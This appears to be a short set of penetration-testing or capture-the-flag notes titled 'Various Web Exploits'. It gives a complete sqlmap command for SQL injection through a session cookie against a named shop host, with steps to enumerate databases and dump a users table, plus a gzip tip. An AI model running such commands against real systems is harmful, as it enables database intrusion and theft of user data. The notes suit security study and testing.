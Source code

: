 # Various Web Exploits

### Give an example of a sqlmap query to exploit SQLi on cookies:
```
sqlmap -u http://shop.wey-tech.com/account_api.php --cookie="session=c2deb0aa8a22efd8c8f74c3db021d6e9" --data='accountinfo=accountinfo' --threads 2 -p "cookie" --ignore-code 401 --level 5 --risk 3 --dbms=mysql -a
```
`a` will retrieve everything. If you don't want to do that and instead find the information incrementally to save time for what you're really after then use: `--dbs` to enumerate teh databases, then `--tables -D <db name>` to get the tables, then `-T users --dump` to dump the *users* tables for example.

### You have a gzip compressed data file that doesn't gunzip?
Try `zless` or `zcat`.

